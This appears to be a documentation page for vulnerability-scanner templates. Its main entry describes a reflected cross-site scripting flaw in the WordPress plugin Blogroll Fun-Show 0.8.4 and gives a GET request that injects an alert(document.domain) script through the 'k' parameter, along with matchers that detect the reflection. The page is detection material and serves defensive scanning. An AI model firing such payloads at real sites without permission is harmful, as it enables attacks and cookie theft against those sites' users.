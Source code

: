 **Type - word**

- words
  1. Index of
  2. wp-content/plugins/arforms/
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress Blogroll Fun-Show Last Post and Last Update Time 0.8.4 - Cross-Site Scripting

## Description

- WordPress Plugin Blogroll Fun-Show Last Post and Last Update Time 0.8.4 and possibly prior versions are prone to a cross-site scripting vulnerability because of a failure to properly sanitize user-supplied input. An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.

- severity - high
- tags - wordpress,wp-plugin,xss,unauth,wp

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/blogroll-fun/blogroll.php?k=%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- part - body
- words
  1. Got: \<script>alert(document.domain)\</script>\<br>

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---